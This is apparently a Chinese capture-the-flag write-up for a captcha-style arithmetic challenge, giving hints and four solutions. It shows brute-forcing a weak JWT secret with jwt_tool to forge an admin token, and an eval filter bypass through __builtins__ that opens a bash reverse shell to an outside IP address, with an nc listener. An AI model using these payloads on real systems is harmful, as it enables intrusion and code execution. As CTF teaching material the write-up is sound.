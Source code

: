 # I am not a robot!

- 出题人: pyy

- 验题人: pyy

## 题目描述

为了证明自己的身份, 冲吧少年!

注: 这道题的flag格式可能为了好看(?)所以做了一些小小的改动, 不过不用担心, 你一眼就能认出来的

- tips: 可以思考一下`服务器是怎么实现这些功能的`? 如果让你写一个类似的程序 (不包括编写网站的知识, 就单纯把它看做是一个`给定输入输出格式的函数`, 要求实现这样的功能) 的话, 你会用什么方法实现?

- tips2: 本题的提示非常的良心, 一个提示, 四种思路, 36分你买不了吃亏, 买不了上当, 真正的物超所值! 赶紧快来抢购吧!

- tips3: 这题是用python写的, python是一门著名的`解释型语言`。

- tips4: 在这道题的世界里, 出题人毫无安全意识, 非常喜欢使用弱密码。

上轮提示:

- 服务器怎么知道你是谁?
- 服务器怎么知道你答出了几道题?
- 服务器怎么知道你正在答的是哪道题? 而它又怎么知道这题的答案?
- 服务器怎么判断答案的正确性?(譬如: 怎么处理除法的分数?)

- 注: 本题共有四种解题思路, 上面的问题想通一两点或许对解题也有很大的帮助

以及36分提示:

- cookie好像有很多种?
- 有没有可能, 它的过滤不是很全?
- ocr做不到的事情, 如果自己写一份字符匹配呢?(只有10个数字和符号的匹配)
- 其实500道的话......2个小时应该也可以算完?

## 出题思路

曾经有一道验证码题, 那个图是看一眼就很花, 然后就借鉴了一下验证码的思路出了这题。(但增加了各种奇怪的解法, 因为出题的时候正好想到了.jpg)

原本这道题是有`% | & ^`运算符的, 这样的话按照逻辑就会过滤掉这四个运算符, 至少shell弹不出来了, 现在还是能弹的。

与钓鱼题联动环节: 在答出0题时输入你的账密, 此时服务器会登录你的账户然后交-100的flag。

## 解法

### 预期解法1(jwt)

![image-20220506173829929](readme.assets/image-20220506173829929.png)

本题用这个样的jwt来记录做出的题以及当前的题目地址, 进jwt.io翻译一下:

![image-20220506174005465](readme.assets/image-20220506174005465.png)

当做出一道题之后n会变成1。

那么目前要做的就是改n了, 尝试着改改看:

![image-20220506174155928](readme.assets/image-20220506174155928.png)

然后被发现了。这个就是jwt第三部分的作用。

尝试伪造jwt需要破解它的密码, 既然是弱密码那就走一个爆破。

`.\jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po -C -d ..\..\docs\dicts\fuzzDicts\passwordDict\top19576.txt`

![image-20220506180255729](readme.assets/image-20220506180255729.png)

然后拿admin去造一个jwt就好了:

![image-20220506180336720](readme.assets/image-20220506180336720.png)

### 预期解法2

应当使用分数回答除法题, 那么背后最省力的做法就是放个eval(我偷了懒, 你们也获得了一种新的解法, 双赢~)

随便打一个import进去, 发现有提示过滤了什么:

![image-20220506180748743](readme.assets/image-20220506180748743.png)

我们偷看一眼源码, 发现过滤了['eval','exec','import','system','getattr','open','kill','+','*'], 但没过滤`__builtins__`和`__dict__`, 那就好办了。

payload: `__builtins__["__imp""ort__"]("os").__dict__['po''pen']('bash -c "bash -i >& /dev/tcp/45.11.2.122/27420 0>&1"')`(不知道为啥本地测试的时候builtins后面要加dict, fastapi里跑起来的时候又不用了(也是本地)?)

此时开个内网穿透, 用linux中的nc执行`nc -lvp 42648`, 完成反弹shell。

![image-20220506191649364](readme.assets/image-20220506191649364.png)

`cat app.py`获取源码

![image-20220506191738798](readme.assets/image-20220506191738798.png)

其实上面的命令也可以直接`cat app.py`(ls啥的过程省略), 然后报答案错的那个页面会有回显的(不过需要f12看包的记录)。

### 预期解法3

做一份图像匹配然后自动交题, 主要是用正则获取图片链接下载, 然后本地计算后上交。

(仅一种思路, 之前做过但那次做的很麻烦且有很多bug, 所以摸鱼摸鱼)

(不过好像有很多大佬用这个方法做出来了, 666)

### 预期解法4

500道题, 很快的啦~(
